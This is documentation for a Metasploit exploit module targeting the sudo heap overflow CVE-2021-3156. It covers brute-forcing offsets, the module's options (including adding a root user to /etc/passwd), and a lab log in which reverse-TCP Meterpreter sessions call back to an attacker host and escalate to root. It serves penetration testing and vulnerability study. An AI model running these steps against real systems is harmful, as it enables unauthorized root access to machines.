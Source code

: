 ## Vulnerable Application

A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
to gain elevated privileges. The vulnerability was introduced in July of 2011 and affects version 1.8.2
through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. Most targets use a technique
that leverages the overflow to overwrite a `service_user` struct in memory to reference an attacker
controlled library which results in it being loaded with the elevated privileges held by sudo. Other targets 
coerce an arbitrary line write to /etc/passwd, adding a new root user. This latter technique performs a 
partial overwrite of a memory address, requiring a brute force of ASLR.

### Manual Target

The service_user technique requires a number of lengths / offsets to function correctly. The manual target can be
used to specify these values if they are known. To identify the values, use the `brute.sh` script from the original
PoC repository at [blasty/CVE-2021-3156][1]. This will only work on systems with tcache support in libc (>= 2.26).

On the target system, the rough steps include:

1. Clone the repository, install necessary build tools and GNU parallel (`sudo apt-get install parallel` on Debian-based
  systems)
1. Do: `make brute`
1. Do: `./brute.sh ...` with the desired options to bruteforce, (see the [README.md][2])
1. Wait for the bruteforce to complete, hopefully finding a successful option.

    Successful results will be written to the `success.txt` file. They will look something like this:
    
    ```
    ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
    
    using target: Manual ['/usr/bin/sudoedit'] (56, 57, 60, 200)
    ** pray for your rootshell.. **
    [+] bl1ng bl1ng! We got it!
    ```
    
    In this case `56, 57, 60, 200` are the required values.

1. From Metasploit
    1. Do: `set TARGET Manual` to specify the manual target
    1. Do: `set Lengths 56, 57, 60, 200` to set the explicit lengths (substitute the numbers as necessary)

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/local/sudo_baron_samedit`
1. Set the necessary options (target, payload, etc.)
1. Do: `run`

## Options

### WritableDir

A directory where you can write files. The necessary source code will be uploaded and compiled to here, along with the
payload library.

### Lengths
*This is an advanced option.*

The lengths to set as used by the manual target. See the "Manual Target" section.

### NewUser
*This is an advanced option.*
For targets using the second technique (adding a user to /etc/passwd), this is the name of the user.

### NewPassword
*This is an advanced option.*
For targets using the second technique (adding a user to /etc/passwd), this is the new password. If left blank,
the system creates a long, random password.



## Scenarios

### Ubuntu 20.04.1 x64

```
msf6 exploit(multi/ssh/sshexec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] 192.168.159.34:22 - Sending stager...
[*] Command Stager progress -  42.75% done (342/800 bytes)
[*] Sending stage (980808 bytes) to 192.168.159.34
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.34:47868) at 2021-02-11 11:55:21 -0500
[!] Timed out while waiting for command to return
[*] Command Stager progress - 100.00% done (800/800 bytes)

meterpreter > getuid
Server username: smcintyre @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/ssh/sshexec) > use exploit/linux/local/sudo_baron_samedit
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/sudo_baron_samedit) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/sudo_baron_samedit) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/local/sudo_baron_samedit) > set TARGET Automatic
TARGET => Automatic
msf6 exploit(linux/local/sudo_baron_samedit) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. sudo 1.8.31 maybe a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Writing '/tmp/libnss_9S9MeS/tB8M .so.2' (564 bytes) ...
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.34:47870) at 2021-02-11 11:55:56 -0500
[+] Deleted /tmp/p60htQTDNO
[+] Deleted /tmp/libnss_9S9MeS/tB8M .so.2
[+] Deleted /tmp/libnss_9S9MeS

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://github.com/blasty/CVE-2021-3156
[2]: https://github.com/blasty/CVE-2021-3156/blob/da68f7c1a2961595a3226b903f1fc180b8824255/README.md#bruteforce-target-finding-experimental
